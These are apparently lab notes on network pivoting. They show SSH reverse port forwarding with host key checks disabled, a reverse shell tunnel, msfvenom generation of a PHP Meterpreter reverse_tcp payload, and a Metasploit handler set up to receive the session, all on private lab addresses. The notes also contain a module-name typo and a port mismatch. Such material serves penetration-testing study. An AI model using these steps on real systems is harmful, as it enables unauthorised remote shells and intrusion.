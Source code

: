 #### 1.2.2 - Scenarios

##### 1.2.2.1 - Reverse Tunneling

```
$ ssh fox@10.0.2.15

fox@ubuntulinux:~$ ssh -NTfCq -R 8888:192.168.56.106:80 -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" user@10.0.2.4
```

![[01 - Reverse Port Forwarding.png]]

```
$ ss -antp
State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port          Process
LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*
LISTEN         0              128                          0.0.0.0:8888                         0.0.0.0:*
ESTAB          0              0                           10.0.2.4:42586                      10.0.2.15:22             users:(("ssh",pid=5282,fd=3))
ESTAB          0              0                           10.0.2.4:22                         10.0.2.15:44498
LISTEN         0              128                             [::]:22                              [::]:*
LISTEN         0              128                             [::]:8888                            [::]:*
```

##### 1.2.2.2 - Reverse Shell Tunnel

TODO: Make a network topology diagram to illustrate the pivoting scenario

`$ ssh fox@10.0.2.15 -NTfCq -D1080 -R 192.168.56.111:4455:127.0.0.1:4445`

![[01 - Reverse Shell Tunnel.png]]

`$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.111 lport=4455 -f raw -o rsh.php`

Launch a shell handler in metasploit for incoming sessions.

```
msf6 > use exploit/mutli/handler
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set lhost 192.168.56.111
lhost => 192.168.56.111
msf6 > exploit(multi/handler) > set lport 4445
lport => 4445
msf6 > exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 192.168.56.111:4445:-  -
[*] Started reverse TCP handler on 0.0.0.0:4445
```
